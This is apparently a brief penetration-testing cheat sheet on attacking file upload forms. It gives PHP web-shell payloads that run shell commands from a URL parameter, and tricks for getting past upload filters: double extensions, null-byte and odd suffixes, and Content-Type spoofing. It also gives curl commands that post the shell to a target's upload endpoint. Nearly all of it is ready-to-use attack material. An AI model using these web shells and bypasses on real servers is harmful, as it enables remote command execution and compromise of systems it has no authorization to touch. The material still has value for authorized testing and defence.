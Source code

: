 - Payload:
  - Test if the code was executed
    ```php
    <?php echo "UPLOAD_OK"; ?>
    ```
  - If executed,
    ```php
    <?php echo shell_exec('whoami'); ?>
    <?php system($_GET['cmd']);?>
    ```
- Bypass techniques:
  - Change `shell.php` to `shell.php.jpg`
  - Content-Type spoofing: `curl -F "file=@shell.php;type=image/jpeg"`
    > Change "file" if needed
  - NULL BYTE and Weird suffixes: `shell.php;.jpg`, `shell.php%20`, `shell.php%00.jpg`
- curl example:
  ```bash
  curl -i -X POST -F "file=@shell.php;type=application/x-php" https://target/upload
  curl -i -X POST -F "file=@shell.php;type=image/jpeg" https://target/upload
  # Change "file" if needed.
  ```
